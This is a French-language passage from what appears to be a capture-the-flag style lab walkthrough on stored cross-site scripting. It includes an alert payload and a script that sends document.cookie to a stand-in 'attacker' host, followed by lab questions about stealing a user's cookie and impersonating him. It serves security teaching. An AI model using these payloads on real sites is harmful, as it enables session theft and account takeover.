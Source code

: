 <img src="https://imgur.com/LCSFUTB.png">

**Un exemple :**

Un attaquant crée un payload dans un champ lors de l'inscription à un site Web stocké dans la base de données des sites Web. Si le site Web ne nettoie pas correctement ce champ, lorsque le site affiche ce champ sur la page, il exécutera le payload pour tous ceux qui le visitent.

Le payload pourrait être aussi simple que ```<script>alert(1)</script>```

Cependant, ce payload ne s'exécutera pas uniquement dans votre navigateur, mais dans tout autre navigateur affichant les données malveillantes insérées dans la base de données.

Expérimentons en exploitant ce type de XSS. accédez à la page "Stored-XSS" sur le terrain de jeu XSS.

**Répondre aux questions ci-dessous**

La machine que vous avez déployée plus tôt vous guidera tout en exploitant certaines vulnérabilités intéressantes que le XSS stocké a à offrir. Il y a des astuces pour répondre à ces questions sur la machine.

Ajoutez un commentaire et voyez si vous pouvez insérer votre propre code HTML.
Cela révélera la réponse à cette question.
```
reponse
```
Créez une popup d'alerte apparaissant sur la page avec vos cookies de document.
```
reponse
```
Remplacez "XSS Playground" par "I am a hacker" en ajoutant des commentaires et en utilisant Javascript.
```
reponse
```
sites Web_can_be_easily_defaced_with_xss
Le XSS stocké peut être utilisé pour voler un cookie de victime (données sur une machine qui authentifie un utilisateur sur un serveur Web). Cela peut être fait en demandant au navigateur des victimes d'analyser le code Javascript suivant :

<script>window.location='http://attacker/?cookie='+document.cookie</script>

Ce script navigue dans le navigateur de l'utilisateur vers une URL différente, cette nouvelle demande inclura un cookie de victime en tant que paramètre de requête. Lorsque l'attaquant a acquis le cookie, il peut l'utiliser pour usurper l'identité de la victime.

Prenez le contrôle du compte de Jack en volant son cookie, 
quelle était la valeur de son cookie ?
```
reponse
```
Publiez un commentaire en tant que Jack.
```
reponse
```

---
  
